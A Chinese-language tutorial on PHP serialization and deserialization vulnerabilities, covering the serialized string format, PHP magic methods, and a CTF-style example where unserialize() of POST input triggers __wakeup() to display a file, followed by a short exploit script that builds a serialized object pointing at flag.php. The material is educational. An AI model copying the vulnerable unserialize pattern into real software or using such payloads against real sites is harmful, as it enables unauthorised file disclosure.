 ## 序列化与反序列化

 >序列化：把对象转换为字节序列，用于保存
 >反序列化：把字节序列恢复为对象的过程
 >
 >- 转换成统一的格式，<font style="background:#f9f2f4 ;color:#c7254e  ;padding:0.2em,0.3em">便于传输</font>
 >- 保留对象的状态以及相关的描述信息
 >- 序列化机制的核心作用就是对象状态的保存与重建
 >
 >反序列化本身不是漏洞，但是反序列化的参数可控就有可能导致漏洞

### 0x01 php的序列化与反序列化

**<font size="5px"> serialize()</font>**

> 函数用于序列化数组或对象，并返回一个字符串。

简单来说，序列化就是把东西摆放整齐，比如：

```php
<?php
$sites = array('a', 'bb', 'ccc');
$serialized_data = serialize($sites);
echo  $serialized_data;
?>
```

输出结果为：

```php
a:3:{ i:0;  s:1:"a";	i:1 ; s:2:"bb";		i:2 ; s:3:"ccc"; }
```

```
a - array
b - boolean
d - double
i - integer
o - common object
r - reference
s - string
C - custom object
O - class
N - null
R - pointer reference
U - unicode string
```

a:3	有三个数组
i:0	第一个数组，s:1:"a",表示第一个数组是字符，1表示有两个字符，为"a"
i:1	第二个数组，s:2:"bb",表示第二个数组是字符，2表示有三个字符，为"bb"
i:2	第三个数组，s:3:"ccc",表示第三个数组是字符，3表示有三个字符，为"ccc"

放入对象也是类似的。

```php
<?php
class name {
    var $test1;
    var $test2;
}
$test3 = new name;
$test3->test1 = 'hello';
$test3->test2 = '_world';
echo serialize($test3); 
```

输出结果：

```php
O:4:"name"	:2	:{ s:5:"test1";		s:5:"hello";	s:5:"test2";	s:6:"_world";}
```

 O:4:"name"  指Object(对象) 4个字符:name
 :2  对象属性个数为2
 {}  中为属性字符数：属性值 

**<font size="5px">unserialize()</font>**

比如：

```php
<?php
$sites = array('a', 'bb', 'ccc');
$serialized_data = serialize($sites);
$unserialized_data = unserialize($serialized_data);
print_r($unserialized_data);
?>
```

输出结果：

```php
Array
(
    [0] =>  a
    [1] =>  bb
    [2] =>  ccc
)
```

这就是 PHP 的反序列化，返回原始的结构。

### 0x02 反序列化漏洞

反序列化漏洞相关的，危险的 PHP 魔法函数，两个下划线开头。

```text
__construct():当一个类被创建时自动调用
__destruct():当一个类被销毁时自动调用
__tostring():当把一个类当作字符串使用时自动调用
__wakeup():当调用unserialize()函数时自动调用
__sleep():当调用serialize()函数时自动调用
__get():当获得一个类的成员变量时自动调用
__set():当设置一个类的成员变量时自动调用
__invoke():当把一个类当作函数使用时自动调用
__call():当要调用的方法不存在或权限不足时自动调用
```

**<font size="5px">看一个简单的例子</font>**

unserialize() 反序列化之后，会自动调用__ wakeup() ,因此最理想的情况就是一些漏洞/危害代码在 __wakeup()  中，从而当我们控制序列化字符串时可以去直接触发它们。

```php
<?php
// flag is in flag.php
class popdemo
{
    private $filename = 'demo.php';
    public function __wakeup()
    {
        // TODO: Implement __wakeup() method.
        $this->show($this->filename);
    }
    public function show($filename)
    {
        show_source($filename);
    }
}

unserialize($_POST['a']);//调用__wakeup()
```

exp:

```php
<?php
class popdemo
{
	private $filename = "flag.php";
}
$p = new popdemo();
var_dump(urlencode(serialize($p)));
```

